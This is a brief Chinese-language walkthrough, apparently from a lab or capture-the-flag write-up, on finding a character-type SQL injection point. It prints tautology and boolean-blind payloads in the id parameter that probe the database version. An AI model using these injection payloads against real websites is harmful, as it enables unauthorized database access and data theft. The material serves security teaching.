





先尝试确定注入点：

payload:?id=1

payload:?id=1'

此时可能存在字符型的注入。

payload:?id=-11'or'1'='1

和刚才的页面一样，说明蹴存在注入。

没有回显报错，只有两个页面，此时采用布尔盲注或时间盲注

payload:?id=1'and+left(version(),1)=5--+

payload:?id=1'and+left(version(),1)=6--+

此时说明数据库版本为5.几